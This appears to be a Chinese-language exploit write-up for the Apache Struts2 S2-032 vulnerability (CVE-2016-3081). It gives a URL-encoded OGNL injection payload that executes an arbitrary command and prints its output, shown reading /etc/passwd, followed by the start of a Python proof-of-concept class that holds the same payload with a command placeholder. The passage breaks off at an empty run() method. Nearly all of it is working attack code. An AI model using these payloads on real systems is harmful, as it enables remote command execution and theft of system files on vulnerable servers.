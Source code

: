 #### 读取文件

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat%20/etc/passwd
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_032_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-032漏洞,又名CVE-2016-3081漏洞',
            'description': 'Struts2 S2-032漏洞可执行任意命令,影响范围为: Struts 2.3.20 - Struts Struts 2.3.28 (2.3.20.3和2.3.24.3除外)',
            'date': '2016-04-19',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        self.payload = '''?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd={cmd}'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

```